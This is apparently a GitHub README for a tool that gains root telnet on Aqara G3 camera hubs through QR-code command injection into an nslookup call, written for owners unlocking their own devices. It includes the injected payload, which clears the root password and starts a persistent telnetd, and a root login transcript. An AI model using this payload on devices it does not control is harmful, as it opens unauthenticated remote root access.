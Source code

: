 # aQRootG3 #
### Enable telnet access via QRCode command Injection for Aqara G3 ###

<p align="center" width="100%">
    <img src="https://user-images.githubusercontent.com/1288525/152621650-993c5630-c749-4758-9609-e5421df4d7ff.png"> 
</p>

:warning:  **WARNING** :warning:
---------------
Aqara have closed the exploit in firmware 3.3.9_0011.0004 by filtering ``` `$'";|&\``` from variables.

It is unlikely that this method of exploitation will ever work again in newer version. It was good while it lasted. 

Aqara - go f*ck yourselves.

Intro
---------------
I was disappointed to see the Aqara G3 camera did not ship with telnet enabled so I managed to grab a copy of a firmware update for some good 'ol static analysis which confirmed none of the previous methods were going to work.

Whilst going through  "ha_master" I did see that one of the variables passed in by the setup qrcode is thrown through sprintf as "nslookup %s" and subsequently passed to popen (yay).

Getting telnet was fairly trivial, getting persistent telnet in one shot within the 132 char sprintf buffer on a readonly filesystem was a little more challenging.

Thankfully another qrcode variable (b aka bind_key) has a larger buffer so we store some data in this which can later be used by the main payload.


Usage
---------------
```bash
usage: aQRootG3.py [-h] ssid pwd [filename]

aQRootG3 v0.x
Enable telnet via qrcode command injection for Aqara G3 hub

positional arguments:
  ssid        Wireless SSID
  pwd         Wireless Password
  filename    (Optional) Save QR Code as image

optional arguments:
  -h, --help  show this help message and exit
```


Steps
---------------
> :warning:  **NOTE**
> 
> *Due to the amount of data in the QRCode, it is no longer possible for the camera to read from a small screen (such as a phone).*\
> *With default settings the QRCode needs to be displayed at a minimum of ~110x110mm to scan successfully.*


1. Reset the camera by pressing the button 10 times quickly.
2. When prompted (albeit probably in chinese) scan the QR code you've generated
3. This will give a failed message (due to invalid bind_key)
4. Add device to Aqara home as normal.
5. Enjoy.

```bash
$ telnet x.x.x.x
Trying x.x.x.x...
Connected to x.x.x.x.
Escape character is '^]'.

Camera-Hub-G3-BEEF login: root
Password:
1 ulimit=256
~ # uname -a
Linux Camera-Hub-G3-BEEF 4.9.84 #67 SMP PREEMPT Mon Sep 6 17:51:23 CST 2021 armv7l GNU/Linux
```


Payload Explanation
---------------
```python
payload=[
    'y=/data/scripts/post_init.sh',         
    '"fw_man"ager.sh -t -f',                        # Create default /data/scripts/post_init.sh
    'echo -e `agetprop persist.app.bind_key`>$y',   # Write post_init[] content below to post_init.sh
    'tail -n2 $y|sh'                                # Clear $USER password, enable tty and start telnetd
],
post_init = [
    '#!/bin/sh',
    'fw_manager.sh -r',                             # Start firmware as normal
    'passwd -d $USER',                              # Clear $USER password
    'fw_manager.sh -t -k'                           # Enable tty and start telnetd
],
}
```

Tested Versions
---------------

| Firmware Version | Status |
| --------------- | -- |
| 3.2.7_0019.0004 | :white_check_mark: |
| 3.3.2_0003.0004  | :white_check_mark: |
| 3.3.4_0007.0004  | :white_check_mark: |
| 3.3.9_0011.0004  | :no_entry_sign: |


